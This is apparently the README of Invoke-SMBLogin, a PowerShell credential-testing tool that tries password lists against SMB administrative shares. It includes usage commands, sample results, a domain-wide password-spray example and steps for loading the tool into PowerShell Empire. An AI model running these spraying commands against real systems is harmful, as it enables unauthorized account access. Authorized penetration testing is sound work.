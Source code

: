 # Invoke-SMBLogin #
Validates username &amp; password combination(s) across a host or group of hosts using the SMB protocol.

The script will attempt to mount the C$ administrative share  on a remote host (s) using a username & password combination (s).
It will interpret the results of the attempt and print a table on the console with the results.

## Examples ##

Depending on the type of parameter ( a single item, comma separated items or a text file ) the script will run through all the iterations.
	
```
PS C:\> Invoke-SMBLogin -ComputerName host01 -UserName bsimpson -Password Passw0rd1
PS C:\> Invoke-SMBLogin -ComputerName host01 -UserName bsimpson -Password "Passw0rd1,Passw0rd2,Passw0rd3"
PS C:\> Invoke-SMBLogin -ComputerName "host01,host02,host03" -UserName bsimpson -Password "Passw0rd1,Passw0rd2,Passw0rd3"
```

```  
PS C:\> Invoke-SMBLogin -Domain lab.org -ComputerName hosts.txt -UserName Administrator -Password Passw0rd1
PS C:\> Invoke-SMBLogin -Domain lab.org -ComputerName host01 -UserName users.txt -Password Passw0rd1
PS C:\> Invoke-SMBLogin -Domain lab.org -ComputerName host01 -UserName users.txt -Password passwords.txt
```
```
PS C:\> Invoke-SMBLogin -ComputerName hosts.txt -UserName Administrator -Password "Passw0rd1,Passw0rd2"

ComputerName Username              Password  Result
------------ --------              --------  ------
192.168.1.1  builtin\Administrator Passw0rd1 Failed
192.168.1.1  builtin\Administrator Passw0rd2 Failed
192.168.1.2  builtin\Administrator Passw0rd1 Failed
192.168.1.2  builtin\Administrator Passw0rd2 Success
```  
This will perform a password spray attack across all domain users using Winter2019 against a host in the domain. It could be a DC or any other member server/workstation as long as it has SMB open.
```
PS C:\> Get-ADUser -Filter * | Select-Object SamAccountName > users.txt
PS C:\> Invoke-SMBLogin -Domain lab.org -ComputerName AnyDomainHost -UserName users.txt -Password Winter2019
```  

## Using Invoke-SMBLogin with Powershell Empire ##

To use Invoke-SMBLogin from a Powershell Empire agent, you have to copy the Powershell script and the Empire module python script to the Empire folder:

- Invoke-SMBLogin.ps1 to **data/module_source/situational_awareness/network/**
- smblogin.py to **lib/modules/powershell/situational_awareness/network/**
